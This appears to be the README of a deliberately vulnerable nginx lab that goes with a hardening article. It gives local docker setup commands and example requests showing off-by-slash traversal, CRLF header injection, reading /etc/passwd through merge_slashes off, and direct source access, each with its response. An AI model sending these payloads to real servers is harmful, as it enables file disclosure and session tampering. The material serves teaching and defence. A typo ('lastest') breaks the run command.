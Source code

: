 # Nginx Configuration Hardening

This repository implements a vulnerable nginx server.
It's an example for the article: https://unbonhacker.com/posts/nginx-configuration-hardening


## Installation

```bash
docker build --no-cache -t nginx-test-hardening:latest .
docker rm --force `docker ps --no-trunc -aq --filter "name=nginx-test-hardening"`
docker run -d -p 8000:80 --name nginx-test-hardening nginx-test-hardening:lastest
```

## Examples

### Off-By-Slash

Static file:
```
http://localhost:8000/static/robots.txt
```

Application source code:

```
http://localhost:8000/static../app.py
```


### CRLF injection via $uri

Request is:

```
GET /crlf%0d%0aSet-Cookie:%20auth=test HTTP/1.1
Host: 127.0.0.1:8000
```

Response is:

```http
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 12 Apr 2022 09:39:22 GMT
Content-Type: text/html
Content-Length: 154
Connection: close
Location: http://localhost//crlf
Set-Cookie: auth=test
```

### merge_slashses off

Request is:

```
GET //////../../../../../etc/passwd HTTP/1.1
Host: 127.0.0.1:8000
```

Response containes the file `/etc/passwd`:

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Content-Type: application/octet-stream
Content-Length: 926
Connection: close
Content-Disposition: inline; filename=passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

### Direct access to file

Request is:

```
GET /app.py HTTP/1.1
Host: 127.0.0.1:8000
```

Response is the application file `app.py`

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Content-Type: application/octet-stream
Content-Length: 208


from flask import Flask, send_file

app = Flask(__name__)
...
```
